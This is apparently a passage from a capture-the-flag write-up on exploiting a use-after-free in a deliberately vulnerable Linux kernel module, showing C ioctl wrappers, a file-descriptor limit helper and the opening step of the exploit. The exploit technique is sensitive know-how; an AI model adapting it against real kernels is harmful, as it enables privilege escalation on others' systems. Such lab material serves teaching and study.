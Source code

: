 ```c
// ioctl IOCTL_CTF_INSTALL_FILE wrapper.
int install_file(int device_fd, int *fd) {
	
	int installed_fd = ioctl(device_fd, IOCTL_CTF_INSTALL_FILE, fd);
	if (installed_fd < 0) {
		warn("[!] IOCTL_CTF_INSTALL_FILE failed");
	}

	return installed_fd;
}

// ioctl IOCTL_CTF_CLOSE_FILE wrapper.
void close_file(int device_fd, int *fd) {
	
	int res = ioctl(device_fd, IOCTL_CTF_CLOSE_FILE, fd);
	if (res < 0) {
		err(0, "[-] IOCTL_CTF_INSTALL_FILE failed");
	}
	
	return;
}

// Limits the available amount of open files handable by the current process.
void set_fd_limit(int cur, int max) {

	struct rlimit new, old;
	new.rlim_cur = cur;
	new.rlim_max = max;

	int res = prlimit(getpid(), RLIMIT_NOFILE, &new, &old);
	if (res < 0) {
		err(0, "[-] prlimit failed\n");
	}
	
	printf("[+] RLIMIT_NOFILE set to:\n[+]\trlim_cur = %d\n[+]\trlim_max = %d\n", cur, max);

	return;
}
```

### Create a temporary file
Once we have created these helper functions, we can start with the actual exploit.
Firstly, we need to open the LKM and a temporary file that will be the one used to trigger the UAF. This can be achieved the following way:

```c
	// Opening LKM.
	puts("[+] Opening LKM");
	device_fd = open(DEVICE_FILE, O_RDONLY);
	if (device_fd < 0) {
		err(0, "[-] Failed to open device file");
	}

	// Opening tmp file.
	puts("[+] Opening tmp file");
	fd0 = open(TMP_FILE, O_CREAT | O_RDWR, 0666);
	if (fd0 < 0) {
		err(0, "[-] Failed to open %s", TMP_FILE);
	}
```

